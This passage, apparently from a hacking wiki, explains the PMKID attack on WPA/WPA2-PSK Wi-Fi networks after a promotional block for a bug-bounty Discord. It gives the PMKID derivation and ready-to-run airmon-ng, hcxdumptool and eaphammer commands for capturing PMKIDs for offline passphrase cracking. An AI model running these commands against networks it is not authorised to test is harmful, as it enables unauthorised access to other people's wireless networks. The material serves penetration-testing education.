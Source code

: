 ![](<../../.gitbook/assets/image (125).png>)


***

<figure><img src="../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

Join [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server to communicate with experienced hackers and bug bounty hunters!

**Hacking Insights**\
Engage with content that delves into the thrill and challenges of hacking

**Real-Time Hack News**\
Keep up-to-date with fast-paced hacking world through real-time news and insights

**Latest Announcements**\
Stay informed with the newest bug bounties launching and crucial platform updates

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) and start collaborating with top hackers today!

***


## WPA/WPA2 PSK

### PMKID

In 2018, **hashcat** [revealed](https://hashcat.net/forum/thread-7717.html) a new attack method, unique because it only needs **one single packet** and doesn't require any clients to be connected to the target AP—just interaction between the attacker and the AP.

Many modern routers add an **optional field** to the **first EAPOL** frame during association, known as `Robust Security Network`. This includes the `PMKID`.

As the original post explains, the **PMKID** is created using known data:

```bash
PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)
```

Given that the "PMK Name" is constant, we know the BSSID of the AP and the station, and the `PMK` is identical to the one from a full 4-way handshake, **hashcat** can use this information to crack the PSK and recover the passphrase!

To **gather** this information and **bruteforce** locally the password you can do:

```bash
airmon-ng check kill
airmon-ng start wlan0
git clone https://github.com/ZerBea/hcxdumptool.git; cd hcxdumptool; make; make install
hcxdumptool -o /tmp/attack.pcap -i wlan0mon --enable_status=1
```

```bash
#You can also obtains PMKIDs using eaphammer
./eaphammer --pmkid --interface wlan0 --channel 11 --bssid 70:4C:A5:F8:9A:C1
```
